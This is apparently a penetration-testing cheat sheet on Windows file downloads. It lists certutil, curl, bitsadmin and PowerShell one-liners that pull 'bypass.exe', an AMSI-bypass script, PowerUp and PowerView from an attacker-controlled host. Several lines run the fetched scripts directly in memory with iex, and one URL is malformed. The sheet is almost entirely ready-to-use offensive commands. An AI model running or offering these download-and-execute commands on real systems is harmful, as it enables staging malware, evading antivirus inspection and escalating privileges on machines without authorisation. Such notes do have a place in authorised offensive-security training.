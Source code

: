 ## Windows File Downloads

#### Certutil 
```
certutil -urlcache http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe
```

#### Curl 
```
curl http://192.168.45.201/bypass.exe -o C:\Users\Offsec\bypass.exe
```

#### Bitsadmin 
```
bitsadmin /Transfer myJob http://192.168.45.201/file.txt C:\Windows\Tasks\file.txt
bitsadmin /create 1 bitsadmin /addfile 1 http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
  reference: https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/

#### Powershell 
```
iex(new-object net.webclient).downloadstring('http://192.168.45.201amsi-reflect.ps1')
iex(new-object net.webclient).downloadstring('http://192.168.45.201/PowerUp.ps1'); Invoke-AllChecks

Invoke-WebRequest http://IP/PowerView.ps1 -OutFile PowerView.ps1
Invoke-WebRequest http://IP/PowerView.ps1 -UseBasicParsing | IEX
```



